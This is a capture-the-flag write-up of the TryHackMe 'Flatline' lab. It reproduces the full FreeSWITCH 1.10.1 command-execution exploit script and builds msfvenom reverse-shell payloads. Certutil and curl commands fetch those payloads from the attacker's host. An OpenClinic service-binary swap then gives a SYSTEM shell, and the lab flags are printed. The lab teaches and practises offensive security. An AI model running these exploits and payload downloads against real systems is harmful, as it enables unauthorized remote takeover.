

# Flatline

# Enumeration

```tsx
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --min-rate 5000 -Pn 10.10.57.92  
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-03 04:55 EDT
Nmap scan report for 10.10.57.92
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
8021/tcp open  ftp-proxy

Nmap done: 1 IP address (1 host up) scanned in 26.58 seconds
```

```tsx
└─$ sudo nmap -sV -sC -A -Pn -p 3389,8021 10.10.57.92  
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-03 04:55 EDT
Nmap scan report for 10.10.57.92
Host is up (0.19s latency).

PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2023-07-03T08:56:27+00:00
|_ssl-date: 2023-07-03T08:56:32+00:00; +56s from scanner time.
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2023-07-02T08:53:25
|_Not valid after:  2024-01-01T08:53:25
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): AVtech embedded (87%)
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 55s, deviation: 0s, median: 54s

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   186.36 ms 10.8.0.1
2   184.83 ms 10.10.57.92

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.19 seconds
```

# Exploit

Use `searchsploit` to view modules to exploit the `freeswitch` service



Get the file `47799.txt` to the current directory and rename it to `47799.py` because it was written in `python3` or download it from [ExploitDB](https://www.exploit-db.com/exploits/47799)

```python
# Exploit Title: FreeSWITCH 1.10.1 - Command Execution
# Date: 2019-12-19
# Exploit Author: 1F98D
# Vendor Homepage: https://freeswitch.com/
# Software Link: https://files.freeswitch.org/windows/installer/x64/FreeSWITCH-1.10.1-Release-x64.msi
# Version: 1.10.1
# Tested on: Windows 10 (x64)
#
# FreeSWITCH listens on port 8021 by default and will accept and run commands sent to
# it after authenticating. By default commands are not accepted from remote hosts.
#
# -- Example --
# root@kali:~# ./freeswitch-exploit.py 192.168.1.100 whoami
# Authenticated
# Content-Type: api/response
# Content-Length: 20
#
# nt authority\system
#

#!/usr/bin/python3

from socket import *
import sys

if len(sys.argv) != 3:
    print('Missing arguments')
    print('Usage: freeswitch-exploit.py <target> <cmd>')
    sys.exit(1)

ADDRESS=sys.argv[1]
CMD=sys.argv[2]
PASSWORD='ClueCon' # default password for FreeSWITCH

s=socket(AF_INET, SOCK_STREAM)
s.connect((ADDRESS, 8021))

response = s.recv(1024)
if b'auth/request' in response:
    s.send(bytes('auth {}\n\n'.format(PASSWORD), 'utf8'))
    response = s.recv(1024)
    if b'+OK accepted' in response:
        print('Authenticated')
        s.send(bytes('api system {}\n\n'.format(CMD), 'utf8'))
        response = s.recv(8096).decode()
        print(response)
    else:
        print('Authentication failed')
        sys.exit(1)
else:
    print('Not prompted for authentication, likely not vulnerable')
    sys.exit(1)
```

Execute the file with the `cmd` argument as `whoami` for testing connection

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ python3 47799.py 10.10.57.92 "whoami"
Authenticated
Content-Type: api/response
Content-Length: 25

win-eom4pk0578n\nekrotic
```

The file executed successfully! Now it’s time to create reverse shell and upload it to the target machine.

# Gain Access

Because the target machine is running within **************Windows************** OS → The reverse payload should be the **************windows************** type

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.97.213 LPORT=4444 -f exe -o revShell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: revShell.exe
```

The reverse shell created → Upload it by `certutil` or `curl`

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ python3 47799.py 10.10.57.92 "certutil -urlcache -split -f http://10.8.97.213:8080/revShell.exe"
Authenticated
Content-Type: api/response
Content-Length: 94

****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
```

Don’t forget to open the port on the local machine to transfer the file

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ sudo python3 -m http.server 8080
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.57.92 - - [03/Jul/2023 05:06:28] "GET /revShell.exe HTTP/1.1" 200 -
10.10.57.92 - - [03/Jul/2023 05:06:29] "GET /revShell.exe HTTP/1.1" 200 -
```

*Note: Another way is using `nc -lvnp <PORT>`  and `systemctl start apache2`*

Verify that the reverse shell has been transfer and placed on the current directory

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ python3 47799.py 10.10.57.92 "dir"   
Authenticated
Content-Type: api/response
Content-Length: 2395

 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of C:\Program Files\FreeSWITCH

[REDACTED]
03/07/2023  10:07            73,802 revShell.exe
09/11/2021  08:22    <DIR>          run
09/11/2021  08:22    <DIR>          scripts
[REDACTED]
```

Execute it

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ python3 47799.py 10.10.57.92 "revShell.exe"
Authenticated
```

Remember to start the `Netcat Listener` at first!

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.57.92] 49826
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Program Files\FreeSWITCH>whoami
whoami
win-eom4pk0578n\nekrotic
```

Navigate to the directory of user `nekrotic` and find the flag

```tsx
C:\Users\Nekrotic\Desktop>more user.txt
more user.txt
THM{64bca0843d535fa73eecdc59d27cbe26}
```

# Privilege Escalation → Administrator

Back to directory `C:\` → The folder `projects` is not the folder that generally placed in the `C:\` directory → Explore it

```tsx
C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of C:\

15/09/2018  08:19    <DIR>          PerfLogs
09/11/2021  17:41    <DIR>          Program Files
09/11/2021  08:13    <DIR>          Program Files (x86)
09/11/2021  08:18    <DIR>          projects
09/11/2021  08:28    <DIR>          Users
09/11/2021  17:47    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  49,994,317,824 bytes free
```

Get inside and find out there is another folder called `openclinic`

```tsx
C:\>cd projects

C:\projects>dir
 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of C:\projects

09/11/2021  08:18    <DIR>          .
09/11/2021  08:18    <DIR>          ..
09/11/2021  08:29    <DIR>          openclinic
               0 File(s)              0 bytes
               3 Dir(s)  49,994,317,824 bytes free
```

Go through files that the folder is containing

```tsx
C:\projects>dir openclinic
 Volume in drive C has no label.
 Volume Serial Number is 84FD-2CC9

 Directory of C:\projects\openclinic

09/11/2021  08:29    <DIR>          .
09/11/2021  08:29    <DIR>          ..
06/04/2021  23:14               250 configureCountry.bat
01/07/2021  18:20               167 configureLanguage.bat
09/11/2021  08:29    <DIR>          jdk1.8
09/11/2021  08:18           334,840 lua5.1.dll
09/11/2021  08:19    <DIR>          mariadb
07/06/2021  16:58            93,696 OpenClinic GA login.exe
08/05/2020  12:17            27,136 OpenClinicStartServices.exe
02/05/2021  00:45               316 stopOpenClinicHttp.bat
09/11/2021  08:30    <DIR>          tomcat8
09/11/2021  08:29    <DIR>          Uninstall
09/11/2021  08:18         1,389,568 uninstall.exe
               7 File(s)      1,845,973 bytes
               6 Dir(s)  49,987,264,512 bytes free
```

Research from [ExploitDB](https://www.exploit-db.com/exploits/50448) to figure out this PoC 

```
																# Proof of Concept

1. Generate malicious .exe on attacking machine
    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.102 LPORT=4242 -f exe > /var/www/html/mysqld_evil.exe

2. Setup listener and ensure apache is running on attacking machine
    nc -lvp 4242
    service apache2 start

3. Download malicious .exe on victim machine
    type on cmd: curl http://192.168.1.102/mysqld_evil.exe -o "C:\projects\openclinic\mariadb\bin\mysqld_evil.exe"

4. Overwrite file and copy malicious .exe.
    Renename C:\projects\openclinic\mariadb\bin\mysqld.exe > mysqld.bak
    Rename downloaded 'mysqld_evil.exe' file in mysqld.exe

5. Restart victim machine

6. Reverse Shell on attacking machine opens
    C:\Windows\system32>whoami
    whoami
    nt authority\system
```

The above PoC shows manual steps to exploit the target machine through `openclinic` folder and the `mysqld.exe` file

Create another payload with `msfvenom` 

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.97.213 LPORT=4242 -f exe > msqld_evil.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Upload the payload to the target machine and rename it to `mysqld.exe` (remember to change the original `mysqld.exe` to another file such as `mysqld.bak` to avoid the conflict)

```tsx
C:\projects\openclinic\mariadb\bin>certutil -urlcache -split -f http://10.8.97.213:8080/mysqld_evil.exe mysqld.exe
certutil -urlcache -split -f http://10.8.97.213:8080/mysqld_evil.exe mysqld.exe
****  Online  ****
  000000  ...
  01204a
CertUtil: -URLCache command completed successfully.
```

Verify that the malicious file has been upload successfully by focus on the size of it!

****************Original****************

```tsx
23/03/2021  00:47            26,600 mysqld.exe
```

******************Malicious******************

```tsx
03/07/2023  10:28            73,802 mysqld.exe
```

Start the `Netcat Listener` on the local machine on the selected port in `mysqld_evil.exe` file and restart the target machine by command `shutdown /r`

```tsx
C:\projects\openclinic\mariadb\bin>whoami
whoami
win-eom4pk0578n\nekrotic

C:\projects\openclinic\mariadb\bin>shutdown /r
                                                                                                                   
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$
```

Then wait for a second and the current shell would be disconnected → Look at the `Netcat` terminal and verify that the connection is succeed

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Flatline]
└─$ nc -lvnp 4242        
listening on [any] 4242 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.57.92] 49671
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Navigate to `Nekrotic\Desktop` and get the root flag

```tsx
C:\Windows\system32>cd ..\..\Users\Nekrotic\Desktop
C:\Users\Nekrotic\Desktop>more root.txt
more root.txt
THM{8c8bc5558f0f3f8060d00ca231a9fb5e}
```